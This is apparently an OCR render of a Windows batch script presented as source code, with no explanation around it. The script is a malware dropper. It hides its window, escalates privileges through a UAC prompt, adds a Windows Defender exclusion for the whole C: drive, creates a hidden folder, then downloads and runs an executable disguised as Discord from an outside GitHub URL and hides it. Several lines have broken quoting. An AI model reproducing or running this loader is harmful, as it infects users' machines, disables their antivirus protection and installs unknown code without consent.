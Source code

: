 :-------------------------------------------------------------------------------------------------------------------

powershell -window hidden -command ""

:-------------------------------------------------------------------------------------------------------------------

    IF "%PROCESSOR_ARCHITECTURE%" EQU "amd64" (
>nul 2>&1 "%SYSTEMROOT%\SysWOW64\cacls.exe" "%SYSTEMROOT%\SysWOW64\config\system"
) ELSE (
>nul 2>&1 "%SYSTEMROOT%\system32\cacls.exe" "%SYSTEMROOT%\system32\config\system"
)

:-------------------------------------------------------------------------------------------------------------------

if '%errorlevel%' NEQ '0' (
    goto UACPrompt
) else ( goto gotAdmin )

:-------------------------------------------------------------------------------------------------------------------

:UACPrompt
    echo Set UAC = CreateObject^("Shell.Application"^) > "%temp%\getadmin.vbs"
    set params= %*
    echo UAC.ShellExecute "cmd.exe", "/c ""%~s0"" %params:"=""%", "", "runas", 1 >> "%temp%\getadmin.vbs

:-------------------------------------------------------------------------------------------------------------------

    "%temp%\getadmin.vbs"
    del "%temp%\getadmin.vbs"
    exit /B
:-------------------------------------------------------------------------------------------------------------------

:gotAdmin
    pushd "%CD%"
    CD /D "%~dp0

:-------------------------------------------------------------------------------------------------------------------

powershell.exe -command "Add-MpPreference -ExclusionPath "C:\

:-------------------------------------------------------------------------------------------------------------------

cd "C:\Users\%USERNAME%\AppData\Local"
mkdir "Anon"
attrib +h "Anon" /s /d
cd C:\Users\%USERNAME%\AppData\Local\Anon" 

:-------------------------------------------------------------------------------------------------------------------

Powershell -Command "Invoke-Webrequest 'https://github.com/AnonAm93/1/raw/main/Discord.exe' -OutFile Discord.exe"
start Discord.exe
attrib +h "C:\Users\%USERNAME%\AppData\Local\Anon\Discord.exe" /s /d

:-------------------------------------------------------------------------------------------------------------------
